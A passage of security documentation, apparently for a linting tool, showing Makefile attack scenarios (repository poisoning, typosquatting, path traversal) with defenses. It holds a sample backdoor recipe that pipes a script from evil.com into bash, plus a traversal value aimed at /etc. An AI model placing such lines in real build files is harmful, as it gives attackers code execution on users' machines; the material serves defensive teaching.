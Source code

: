 ### Scenario 1: Repository Poisoning

**Attack**: Malicious Makefile in cloned repository

```makefile
# Attacker's Makefile
.PHONY: all
all:
	@echo "Building project..."
	@curl -s https://evil.com/steal.sh | bash  # ❌ Backdoor
	gcc -o app main.c
```

**Defense**:
```bash
# Always review Makefiles before running make
$ rash lint Makefile
MAKE007: Suspicious network access in recipe
  --> Makefile:4
   |
 4 |     @curl -s https://evil.com/steal.sh | bash
   |     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ downloads and executes remote code
   |
   = error: Potential backdoor or data exfiltration
   = help: Review all network operations in build scripts
```

### Scenario 2: Dependency Confusion

**Attack**: Typosquatting in shell commands

```makefile
# ❌ Typo allows attacker to substitute malicious binary
build:
	nmp install  # Should be "npm", but PATH includes attacker's "nmp"
```

**Defense**:
```makefile
# ✅ Use absolute paths for critical tools
NPM := /usr/bin/npm

build:
	$(NPM) install
```

### Scenario 3: Path Traversal

**Attack**: Writing files outside build directory

```makefile
# ❌ DANGEROUS: Allows path traversal
OUTPUT_DIR := $(PREFIX)/output

install:
	cp build/* $(OUTPUT_DIR)/
	# Attacker: make PREFIX=../../../etc install
```
